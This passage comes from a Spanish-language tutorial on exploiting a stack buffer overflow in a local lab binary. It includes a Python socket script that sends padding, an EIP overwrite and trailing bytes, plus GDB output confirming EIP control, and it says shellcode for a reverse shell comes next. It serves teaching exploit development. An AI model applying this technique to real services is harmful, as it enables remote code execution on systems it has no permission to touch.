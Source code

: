 Vemos que funciona y sobrescribe con `B` el `EIP` por lo que ahora tendremos que injectar un `shellcode` para que se nos haga una `reverse shell` al servidor aprovechando esta vulnerabilidad.

### Verificación del Espacio Después del EIP

Queremos comprobar qué ocurre con los datos introducidos después del `EIP`. Para ello, añadimos datos adicionales (`CCCC`) al final del payload creando una variable `after_eip` y automatizaremos todo esto con un script:

> step3.py

```python
#!/usr/bin/python3

import socket

target_ip = "127.0.0.1"
target_port = 20201

buffer_size = 288
padding = b"A" * buffer_size
eip_override = b"B" * 4
post_eip_data = b"C" * 300

crafted_payload = padding + eip_override + post_eip_data

def send_payload():
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.connect((target_ip, target_port))
        sock.send(b"Data Input: " + crafted_payload + b"\r\n")

if __name__ == '__main__':
    send_payload()
```

Ahora en el `GDB` tendremos que poner de nuevo `run` para ejecutar la aplicacion:

> gdb (pwndbg)

```shell
run
```

Y en el host ejecutamos el script:

> host

```shell
python3 step3.py
```

En el `GDB` tendremos que ver algo asi:

```
Starting program: /home/kali/Desktop/insecure/secure_software 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Listening at 0.0.0.0:20201!

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
───────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────────────────────────────
 EAX  0xffffffff
 EBX  0x41414141 ('AAAA')
 ECX  0
 EDX  0xffffffb8
 EDI  0x41414141 ('AAAA')
```